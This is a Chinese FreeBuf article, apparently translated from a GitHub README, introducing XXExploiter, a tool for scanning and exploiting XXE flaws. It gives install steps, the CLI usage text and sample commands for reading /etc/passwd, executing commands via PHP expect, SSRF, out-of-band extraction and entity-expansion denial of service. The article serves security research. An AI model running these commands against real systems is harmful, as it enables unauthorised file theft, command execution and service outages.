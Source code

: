 ```yaml
---
description: 一款功能强大的XXE漏洞扫描与利用工具 - FreeBuf互联网安全新媒体平台
---
```


# XXExploiter工具

**XXExploiter是一款功能强大的XXE漏洞扫描与利用工具，在它的帮助下，广大安全研究人员可以轻松发现和利用XXE漏洞。**

XXExploiter可以生成XML Payload，并自动开启一台服务器来提供所需的DTD或实现数据提取。该工具目前仍处于开发阶段，但其中大部分的功能已经可以正常使用了。

## 工具安装

```text
#install node and npm if you don't have it yet     
npm install -g xxexploiter
```

## 构建&源码运行

下面给出的是一个样本Node应用程序，采用TypeScript开发，所以我们可以轻松构建或集成至其他应用程序中。首先，我们需要安装Node和npm：

```text
npm install      
    npm run build      
    #you may need to npm install tsc -g in order for 'npm build' to succeed
```

 运行该工具，可以使用下列方式运行：

```text
npm start [args]      
    node dist/index.js [args]  
```

 或者，你也可以直接在本地系统中安装：

```text
npm link
```

## 工具使用

```text
Usage: xxexploiter.ts [command] [options]

    Commands:

      xxexploiter file [file_to_read]  Use XXE to read a file

      xxexploiter request [URL]        Use XXE to do a request

      xxexploiter expect [command]     Use XXE to execute a command through PHP's expect

      xxexploiter xee [expantions]     Generate a huge content by resolving entities

    Fuzzing Specific Options

      -f, --fuzz            Enables fuzz options. Use {{FUZZ}} placeholder in the command arg for the magic.

      -w, --wordlist        Path to a wordlist to be used with the fuzz command

      -y, --success-string  String to search for a success response in the requests

      -n, --error-string    String to search for an error response in the request

    Options:

      --version             Show version number                                                                                                            [boolean]

      -s, --server          Server address for OOB and DTD

      -p, --port            Server port for OOB and DTDs. Default: 7777

      -t, --template        path to an XML template where to inject payload

      -m, --mode            Extraction Mode: xml, oob, cdata. Default: xml

      -e, --encode          Extraction Encoding: none, phpbase64. Default: none

      -o, --output          Output for the XML payload file. Default is to console

      -x                    Use a request to automatically send the xml file

      -X, --request-output  Output the response from -x option. If not defined goes to stdout

      -h, --help            Show help                                                                                                                      [boolean]
```

## 样本命令

```text
cli.ts expect ls

    cli.ts -s 127.0.0.1 expect ls -e phpbase64 -m oob -o output.xml

    cli.ts -s 127.0.0.1 file /c/windows/win.ini -t xmltemplate.xml -m oob

    cli.ts xee 900000000 -o output.xml

    cli.ts file /etc/passwd -x request.txt -t template.xml

    cli.ts file /root/{FUZZ} -f -w wordlist.txt -n "not found" -x request.txt
```

### 下面给出是该工具的四个主要命令：

> file：读取本地文件；
>
>  requesst：执行SSRF攻击，从目标设备发送请求；
>
>  expect：使用PHP执行命令（如果目标是一个PHP应用的话）；
>
>  XEE：执行参数扩展来尝试引起拒绝服务；

## 注意事项

如果你选择使用OOB或CDATA模式，那么XXExploiter将会生成所需的DTD，并使用一台服务器来托管它们。请记住，如果你使用了这些选项，你还需要设置服务器地址。

 如果你使用了XML的body内容，那么请记住XML受限字符串（例如’&lt;’）可能会破坏解析数据，所以请确保使用CDATA或PHP的Base64编码。

大多数语言都会限制实体扩展的数量或扩展内容的总长度，因此请确保在与目标相同的条件下，首先在本地计算机上测试XEE。

### 模板

有时我们需要发送带有特定字段的XML，以便能够利用漏洞进行攻击。为此，我们专门引入了-t（–template）选项。

你可以创建一个可以创建常规XML文件，并用它来生成恶意Payload。如果你想要添加请求内容或文件中的内容，你可以替换掉其中的{{XXE}}占位符。

### 请求

完成了上述操作之后，你也不需要手动向服务器发送XML文件，因为-x选项可以自动化完成这部分操作。

你可以使用从从Burp获取的请求，并在此处使用它。（注意，-x选项需要传入一个文件）。除此之外，请求中的相对路径可能无法正常工作。默认情况下，如果发生这种情况，xxexploiter会尝试从主机Header获取URL。

 在希望注入XML内容的地方，可以添加占位符{{XXE}}，或者如果需要用Base64编码，即使用{{XXE\_B64}}。

### 模糊测试器

如果你找到了一台存在漏洞的服务器，并且想提取出其中的文件，但你又不知道里面有什么的话，那么你就可以使用模糊测试器并利用XXE来根据字典寻找文件了。我们只需要使用参数中的{{FUZZ}}占位符，并结合-x选项来自动化请求即可。

##  项目地址

> XXExploiter：【[GitHub传送门](https://github.com/luisfontes19/xxexploiter)】

 **\* 参考来源：**[**luisfontes19**](https://github.com/luisfontes19/xxexploiter)**，FB小编Alpha\_h4ck编译，转载请注明来自FreeBuf.COM**

